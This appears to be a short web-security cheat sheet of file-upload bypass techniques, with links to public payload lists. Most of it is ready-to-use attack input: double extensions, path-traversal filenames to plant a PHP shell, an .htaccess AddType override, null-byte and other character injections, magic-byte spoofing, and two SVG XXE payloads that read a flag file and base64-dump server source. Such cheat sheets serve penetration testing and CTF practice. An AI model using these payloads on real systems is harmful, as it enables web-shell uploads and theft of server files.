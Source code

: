 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt

##### Double extension 
`.jpg.php`

##### Reverse Double Extension
`.php.jpg`

##### Upload to different directory
```
Content-Disposition: form-data; name="avatar"; filename="../shell3.php"
```

Trying to bypass filters:
```
filename="..%2fshell3.php"
```

then open `avatars/../shell3.php`

##### Replace .htaccess if some extensions are not allowed

```
AddType application/x-httpd-php .nope
```

##### Character Injection

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Content-type:

in the zero bytes of file:

`GIF8`
`PNG`

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

Mime types:

[File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) or [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime).

SVG/XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "/flag.txt"> ]>
<svg>&xxe;</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```